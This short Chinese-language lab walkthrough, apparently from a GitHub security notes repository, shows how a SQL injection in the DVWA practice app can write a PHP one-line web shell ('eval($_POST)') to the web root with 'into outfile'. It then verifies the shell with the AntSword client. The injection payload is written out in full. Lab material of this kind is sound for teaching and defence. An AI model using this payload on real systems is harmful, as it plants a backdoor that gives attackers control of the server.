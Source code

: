 ### 1、原理
```yaml
1、使用php一句话木马
2、sql语句：into outfile上传文件
```
### 2、注入DVWA
#### 从第二个显示位，进行注入，把第二个显示位的内容，get_shell.php，存入服务器的/var/www/html/目录下
```sql
'union select 1,"<?php eval($_POST['a']);" into outfile '/var/www/html/get_shell.php
```
![image](https://github.com/498946975/Security/blob/master/images/get_shell_1.png)

### 3、上传成功之后，用蚁剑进行验证
![image](https://github.com/498946975/Security/blob/master/images/get_shell_2.png)
![image](https://github.com/498946975/Security/blob/master/images/get_shell_3.png)